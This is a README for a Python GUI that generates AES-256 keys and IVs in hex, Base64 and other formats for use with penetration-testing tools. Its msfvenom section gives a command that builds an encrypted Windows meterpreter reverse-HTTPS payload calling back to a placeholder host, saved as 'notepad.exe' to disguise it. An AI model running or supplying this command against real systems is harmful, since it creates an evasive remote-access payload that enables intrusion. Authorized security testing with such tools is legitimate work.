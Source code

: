 # AES-256 Key & IV Generator
A professional Python application for generating cryptographically secure AES-256 encryption keys and initialization vectors (IVs) with multiple output formats suitable for various applications including penetration testing tools like msfvenom.

![Python 3.6 Badge](https://img.shields.io/badge/python-3.6%252B-blue)
![MIT-License Badge](https://img.shields.io/badge/license-MIT-green)

## Features
Cryptographically Secure Generation: Uses os.urandom() for secure random number generation

## Multiple Output Formats:

Hexadecimal (ideal for msfvenom)

Base64 encoding

Escape sequences (for code implementation)

Raw bytes representation

## User-Friendly GUI: 

Intuitive interface built with Tkinter

Clipboard Integration: One-click copying of generated values

Cross-Platform Compatibility: Works on Windows, macOS, and Linux

## Installation
Clone or download this repository

Install required dependencies:

bash```
pip install -r requirements.txt```

## Usage

Run the application:

bash```
python aes_key_generator.py```

Generate new values:

Click "Generate New" to create a fresh AES-256 key and IV

Select output format:

Choose from Hex, Base64, Escape Sequences, or Raw Bytes

Copy values:

Use the "Copy Key", "Copy IV", or "Copy Both" buttons to transfer values to clipboard

## Requirements

The application requires the following dependencies (automatically installed via requirements.txt):

Python 3.6+

Tkinter (usually included with Python standard library)

## For msfvenom Usage

When using with msfvenom, select the **Hex format** and use the values with the appropriate flags:

bash```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=YOUR_IP LPORT=YOUR_PORT \
-e aes256 -K YOUR_KEY -i YOUR_IV --encoder x64/xor_dynamic --arch x64 --platform windows -f exe -o notepad.exe```

## Security Considerations

Always generate new keys and IVs for each encryption operation

Never reuse the same key/IV combination

Store keys securely using appropriate secret management solutions

This tool uses cryptographically secure random generation (os.urandom)

## Project Structure
text
aes-key-generator/
├── aes_key_generator.py  # Main application file
├── requirements.txt      # Python dependencies
└── README.md            # This file

## License

This project is licensed under the **MIT License** - see the LICENSE file for details.

## Disclaimer
This tool is intended for educational and legitimate security testing purposes only. Always ensure you have proper authorization before using encryption tools on any system.


